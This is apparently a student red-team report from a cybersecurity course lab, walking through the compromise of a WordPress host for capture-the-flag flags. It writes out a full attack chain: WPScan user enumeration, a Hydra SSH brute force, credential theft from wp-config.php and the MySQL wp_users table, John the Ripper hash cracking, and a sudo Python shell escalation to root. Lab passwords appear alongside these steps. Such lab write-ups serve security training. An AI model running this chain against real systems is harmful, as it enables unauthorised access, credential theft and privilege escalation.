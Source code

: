 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.0/24
  - ![alt text] (https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/025ff3ea5bce6ebc05f03ac40339df8e13f8ed29/Images/Offense%20Images/nmapscanfortarget1.png)
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - No file security permission implemented
  - Use of weak password salted hashes
  - Python root escalation privileges

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan to enumerate users of the Target 1 WordPress site
       - wpscan --url http://192.168.1.110 --enumerate u
       - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8655bc671393f7d27d9d25ac768909c31c3b8594/Images/Offense%20Images/wpscanusers.png)
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/hydrabruteforcemichael.png)
    - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
      - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sshmichaelpassword.png)
        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2hash.png)
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2.png)
  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database
        - the wp-config.php displayed DB_Password in plaintext
        - Insert Picture
        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/mysqlconnect.png)
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sqlshowdatabases.png)
   - ![alt text] 
  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by retrieving user credentials from database, executed john the ripper to crack password hash and use Python Escalation Privileges to gain root access
        - Previously gained access to the database credentials as Michael from the sp-config.phpfile, cracking password hashes gathered from MySQL was the next step.
        - These user credentials are stored in the wp_users table of the wordpress database.
        - The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;
    - Insert picture
        - When I exported the hashes, I saved them individually as stevenhash.txt and michaelhash.txt and ran them against John the Ripper to crack the hashes.
          - Command:
            - john stevenhash.txt
            - Insert Picture
            - john michaelhash.txt; the execution of performing the john the ripper kept on going; but we already had the password from the previous activity.
          - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
    - Insert Picture
